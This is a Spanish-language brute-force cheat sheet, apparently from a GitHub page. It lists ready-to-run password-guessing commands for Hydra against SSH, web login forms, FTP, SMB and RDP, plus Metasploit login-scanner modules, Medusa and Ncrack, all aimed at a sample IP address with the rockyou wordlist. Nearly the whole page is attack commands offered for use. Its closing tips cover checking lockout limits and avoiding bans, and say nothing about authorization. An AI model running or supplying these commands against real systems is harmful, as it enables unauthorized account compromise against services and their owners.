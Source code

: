 ## 💣 **Comandos más usados para Fuerza Bruta**

---

### 🐍 **1. Hydra**

Hydra es una herramienta rápida y versátil para ataques de fuerza bruta a servicios como SSH, FTP, RDP, HTTP, SMB, etc.

#### 🔐 **Ataque SSH**

```bash
hydra -l usuario -P /ruta/rockyou.txt ssh://192.168.1.100
```
`hydra -l usuario -P /ruta/rockyou.txt ssh://192.168.1.100`

#### 🌐 **Ataque HTTP (formulario web)**

```bash
hydra -l admin -P /ruta/rockyou.txt 192.168.1.100 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=Login Failed"
```



#### 💾 **Ataque FTP**

```bash
hydra -l admin -P /ruta/rockyou.txt ftp://192.168.1.100
```


#### 🪟 **Ataque SMB**

```bash
hydra -l admin -P /ruta/rockyou.txt smb://192.168.1.100
```


#### 📱 **Ataque RDP**

```bash
hydra -t 4 -V -f -l usuario -P /ruta/rockyou.txt rdp://192.168.1.100
```



#### ✅ **Parámetros útiles**

- `-l`: usuario
    
- `-L`: lista de usuarios
    
- `-P`: diccionario de contraseñas
    
- `-t`: número de tareas simultáneas (por defecto 16)
    
- `-f`: para en el primer login válido
    
- `-vV`: modo verboso + muestra cada intento
    

---

### 🧨 **2. Metasploit (msfconsole)**

#### 🔍 **Usar módulo de fuerza bruta para SSH**

```bash
use auxiliary/scanner/ssh/ssh_login set RHOSTS 192.168.1.100 set USERNAME root set PASS_FILE /ruta/rockyou.txt run

```



#### 🔍 **Fuerza bruta FTP**

```bash
use auxiliary/scanner/ftp/ftp_login
set RHOSTS 192.168.1.100 
set USER_FILE /ruta/users.txt 
set PASS_FILE /ruta/rockyou.txt 
run
```

#### 🕸 **Fuerza bruta HTTP básica**

```bash

use auxiliary/scanner/http/http_login 
set RHOSTS 192.168.1.100 
set USERNAME admin 
set PASS_FILE /ruta/rockyou.txt 
set TARGETURI /admin run
```


---

### ⚙️ **3. Otras Herramientas Populares**

#### 🔍 **Medusa**

```bash
medusa -h 192.168.1.100 -u admin -P /ruta/rockyou.txt -M ssh
```



#### 🔍 **Ncrack** (de los creadores de Nmap)

```bash
ncrack -p 22 -u root -P /ruta/rockyou.txt 192.168.1.100
```



---

### 📌 **Recomendaciones**

- Usar siempre **diccionarios relevantes**: `rockyou.txt`, `SecLists`, personalizados según el objetivo.
    
- Verifica primero si hay **limitación de intentos** (bloqueos por IP, captcha, etc).
    
- No abusar en entornos reales: puede generar **ruido** o incluso **baneos**.